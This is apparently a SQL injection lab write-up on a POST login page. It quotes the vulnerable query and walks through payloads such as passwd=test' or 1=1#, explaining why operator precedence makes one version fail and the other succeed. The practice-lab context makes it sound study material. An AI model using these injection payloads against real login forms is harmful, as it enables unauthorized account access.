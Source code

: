 ## Login Page
1. POST method
2. **account**->true AND **password**->true  
  
### Solution
Source code:  
```sql
SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1
```
To POST data, you can **enable POST data** in hackbar.  
Then if you use this payload:  
```sql
uname=test' or 1=1#&passwd=test
```
You must fail...  
```sql
// AND have more priority than OR
True AND false
```
So, you should use...
```sql
uname=test&passwd=test' or 1=1#
// Then it will become
False or True
```  
Then, we can login success!  
  
In this case, we should know how to utilize the boolean result to get what we want.  
so, we can use ```xxx or 1=1#``` to make sure the sql clause first  
because page may show error if ```warning: sql syntax error```
